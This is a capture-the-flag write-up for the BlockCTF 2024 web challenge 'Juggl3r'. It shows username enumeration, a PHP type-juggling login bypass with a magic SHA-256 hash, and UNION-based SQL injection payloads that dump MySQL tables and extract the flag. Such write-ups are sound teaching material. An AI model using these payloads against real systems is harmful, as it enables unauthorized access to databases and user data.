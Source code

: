 # BlockCTF 2024

## Juggl3r

> "The admin panel seems locked behind some odd logic, and the flag is hidden deep. Can you bypass the checks and uncover the secret?
>
>  Author: n/a
>

Tags: _web_

## Solution
For the challenge we get a link to a small web-site. Opening it shows a login formular. The response header tells us the page is delivered by an `Apache` webserver and runs with `PHP 7.4.33`.

```bash
HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 14:32:56 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 619
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

Trying `test:test` as input credentials gives us an error `User not found`, this is interesting, since we can bruteforce typical users and get direct feedback if such a user exists or not. Lets try `admin:test`, and yes we get `Invalid password`, so we found a valid user already.

Since the challenge title is `Juggl3r` we can guess that the vulerability we are looking for exploits PHPs [`type juggling`](https://www.php.net/manual/en/language.types.type-juggling.php) in some way. Lets try passing an array as `password` parameter, instead of a string.

```bash
> curl -XPOST http://54.85.45.101:8080/login.php -d "username=admin&password[]=1"
<br />
<b>Warning</b>:  hash() expects parameter 2 to be string, array given in <b>/var/www/html/login.php</b> on line <b>36</b><br />
...
```

We still get `Invalid password` but the webserver is badly configured and shows warnings that gives us a good hint. The code uses [`hash`](https://www.php.net/manual/en/function.hash.php) to generate a hash of the password before comparing the hashes. It fails when passing an array as second parameter (`data`). This reveils a little bit about implementation details so we can try to continue finding a workaround.

One possibility are [`magic hashes`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md#magic-hashes). Since we don't know the hash algorithm we can try some of the list for different algorithms, and eventually find `34250003024812` works as password (so the implementation uses `sha-256` as algorithm).

Logging in as `admin:34250003024812` gives us the admin panel that doesnt give us very much information. Only `User found: admin` and a logout button. But we can see in the url there is a parameter `user_id=1` (`http://54.85.45.101:8080/admin.php?user_id=1`) that calls for [`IDOR`](https://en.wikipedia.org/wiki/Insecure_direct_object_reference). 

So we can try other user id's, for instance `http://54.85.45.101:8080/admin.php?user_id=2` indeed gives us `User found: user`. But otherwise no users are found. This could of course mean we have another user with a large user id. Also we can try to enter nonsense values as user id, for instance `http://54.85.45.101:8080/admin.php?user_id=abc` that gives us.

```bash
Fatal error: Uncaught PDOException: SQLSTATE[42S22]: Column not found: 1054 Unknown column 'abc' in 'where clause' in /var/www/html/admin.php:16 Stack trace: #0 /var/www/html/admin.php(16): PDO->query('SELECT * FROM u...') #1 {main} thrown in /var/www/html/admin.php on line 16
```

This of course is a lot of leaked information, also it looks like this part is vulnerable to [`SQL injection`](https://en.wikipedia.org/wiki/SQL_injection). So we should start collecting more informations about the database. For this we use [`UNION attack`](https://portswigger.net/web-security/sql-injection/union-attacks).

We guess the table is called `user` or `users`, based on the error we got before. First we try to find out how many columns the users table has:

```bash
http://54.85.45.101:8080/admin.php?user_id=1 union select 1 from users
http://54.85.45.101:8080/admin.php?user_id=1 union select 1,2 from users
http://54.85.45.101:8080/admin.php?user_id=1 union select 1,2,3 from users
...
```

The first two requests gives us

```bash
Fatal error: Uncaught PDOException: SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns in /var/www/html/admin.php:16 Stack trace: #0 /var/www/html/admin.php(16): PDO->query('SELECT * FROM u...') #1 {main} thrown in /var/www/html/admin.php on line 16
```

The last one succeeds, but we still see `User found: admin`. So we know the `users` table has three columns, but since our union select is appended to the query result, and the page only shows the first result we need to limit our result to the information we want to leak.

```bash
http://54.85.45.101:8080/admin.php?user_id=1 union select 1,2,3 from users limit 1,1
```

Perfect, this gives us `User found: 2`, so we can leak information and we know the second column is displayed on the page. Lets first check how many users we actually have:

```bash
http://54.85.45.101:8080/admin.php?user_id=1 union select 1,count(*),3 from users limit 1,1
```

We still get `Users found: 2`, therefore we know now we actually have only two users and dont need to search further in the users table. Next we want to see if there are other interesting tables. For this we need to know what database the server is running. We can try `sqlite`:

```bash
http://54.85.45.101:8080/admin.php?user_id=1 union select 1,count(*),3 from sqlite_schema where type ='table' and name NOT LIKE 'sqlite_%' limit 1,1

Fatal error: Uncaught PDOException: SQLSTATE[42S02]: Base table or view not found: 1146 Table 'ctf_challenge.sqlite_schema' doesn't exist in /var/www/html/admin.php:16 Stack trace: #0 /var/www/html/admin.php(16): PDO->query('SELECT * FROM u...') #1 {main} thrown in /var/www/html/admin.php on line 16
```

The table doesn't exist, so not `sqlite`, maybe `mysql`:

```bash
http://54.85.45.101:8080/admin.php?user_id=1 union select 1,count(*),3 from information_schema.tables limit 1,1
```

This gives us `User found: 86`, thats perfect since we know the server is running `mysql` and we have a lot of tables to look at. Typically the application tables are found at the end of the list, so we start going backwards.

```bash
http://54.85.45.101:8080/admin.php?user_id=1 union select 1,table_name,3 from information_schema.tables limit 86,1
User found: temp_table

http://54.85.45.101:8080/admin.php?user_id=1 union select 1,table_name,3 from information_schema.tables limit 85,1
User found: login_attempts

http://54.85.45.101:8080/admin.php?user_id=1 union select 1,table_name,3 from information_schema.tables limit 84,1
User found: flags

http://54.85.45.101:8080/admin.php?user_id=1 union select 1,table_name,3 from information_schema.tables limit 83,1
User found: users

...
```

Alright, table `flags`, that looks good. The only thing is, we don't know what column to query from the table. But we can also query the information.

```bash
http://54.85.45.101:8080/admin.php?user_id=1 union select 1,column_name,3 from information_schema.columns where table_name='flags' limit 1,1
User found: id

http://54.85.45.101:8080/admin.php?user_id=1 union select 1,column_name,3 from information_schema.columns where table_name='flags' limit 2,1
User found: flag

http://54.85.45.101:8080/admin.php?user_id=1 union select 1,column_name,3 from information_schema.columns where table_name='flags' limit 3,1
User not found
```

Good, the column is named `flags`. With all the information we can finally query from the table `flags` and the first entry gives us the flag.

```bash
http://54.85.45.101:8080/admin.php?user_id=1 union select 1,flag,3 from flags limit 1,1
User found: flag{juggl3_inject}
```

Flag `flag{juggl3_inject}`